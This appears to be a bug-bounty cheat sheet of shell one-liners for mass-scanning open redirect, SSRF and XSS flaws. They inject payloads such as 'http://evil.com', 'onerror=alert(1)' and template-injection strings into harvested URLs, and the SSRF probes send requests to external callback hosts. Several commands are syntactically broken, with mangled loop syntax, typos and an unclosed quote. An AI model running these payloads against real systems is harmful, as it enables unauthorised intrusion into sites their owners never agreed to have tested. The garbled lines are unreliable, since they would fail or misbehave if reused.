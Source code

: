 ----------------------
## Open Redirect:
```
waybackurls target.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```
```
export LHOST="URL"; waybackurls $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
```
cat subs.txt| waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```
-----------------------
## SSRF:
```
cat wayback.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
```
cat file.txt | while read host do;do curl --path-as-is --insecure "$host/?unix:(7701 A's here) | "https://bugbounty.requestcatcher.com/ssrf" | grep "request caught" && echo "$host \033[0;31mVuln\n" || echo "$host \033[0;32mNot\n";done
```
```
cat wayback.txt | grep "=" | qsreplace "burpcollaborator_link" >> ssrf.txt; ffuf -c -w ssrf.txt -u FUZZ
```
----------------
## XSS:
```
cat domains.txt | waybackurls | grep -Ev "\.(jpeg|jpg|png|ico)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```
```
gau target.com grep '='| qsreplace hack\" -a | while read url;do target-$(curl -s -l $url | egrep -o '(hack" | hack\\")'); echo -e "Target : \e[1;33m $url\e[om" "$target" "\n -"; done I sed 's/hack"/[xss Possible] Reflection Found/g'
```
```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert(" 
```
```
cat targets.txt | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
```
waybackurls target.com | grep '=' |qsreplace '<ScRiPt>alert(document.domain)</ScRiPt>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<ScRiPt>alert(document.domain)</ScRiPt>" && echo "$host \033[0;31m" Vulnerable;done
```
```
cat urls.txt | grep "=" | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```
```
echo target.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq (freq or Airixss)
```
```
cat targets.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)" 
```
```
```